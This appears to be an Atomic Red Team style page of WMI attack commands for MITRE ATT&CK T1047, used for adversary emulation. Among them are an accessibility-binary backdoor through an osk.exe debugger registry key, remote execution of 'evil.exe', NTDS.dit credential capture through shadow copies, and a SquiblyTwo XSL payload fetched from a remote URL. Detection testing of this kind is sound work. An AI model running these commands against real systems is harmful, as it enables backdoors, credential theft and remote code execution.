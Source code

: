 ﻿## Windows Management Instrumentation

MITRE ATT&CK Technique: [T1047](https://attack.mitre.org/wiki/Technique/T1047)

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"

### Lateral Movement

Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"

### SquiblyTwo

Input:

    wmic process list /FORMAT:evil.xsl

Input:

    wmic os get /FORMAT:”https://raw.githubusercontent.com/redcanaryco/atomic-red-team/squiblytwo/Windows/Payloads/squiblytwo/minimalist.xsl”
